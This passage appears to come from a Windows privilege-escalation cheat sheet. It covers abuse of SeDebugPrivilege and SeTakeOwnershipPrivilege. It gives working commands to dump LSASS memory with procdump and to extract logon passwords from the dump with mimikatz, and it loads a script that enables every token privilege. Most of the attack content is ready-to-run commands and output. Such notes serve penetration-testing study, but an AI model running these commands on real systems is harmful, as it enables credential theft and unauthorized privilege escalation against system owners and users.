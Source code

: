 ```
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
## Procdump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
or
![image](https://user-images.githubusercontent.com/128841823/232630604-454078d5-aa14-4f0b-8843-c3b1b1bd163e.png)

transfer or direct mimikats to the lsass.dmp

## Mimikats
```
mimikatz.exe
```
```
mimikatz # log
```
```
sekurlsa::minidump lsass.dmp
```
```
sekurlsa::logonpasswords
```
also

https://decoder.cloud/2018/02/02/getting-system/

# SeTakeOwnershipPrivilege
This privilege assigns WRITE_OWNER rights over an object
### Example of privs
```
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```
```
import-module .\EnableAllTokenPrivs.ps1
```
```
.\EnableAllTokenPrivs.ps1
```
```
PS C:\tools> whoami /priv

PRIVILEGES INFORMATION
----------------------
```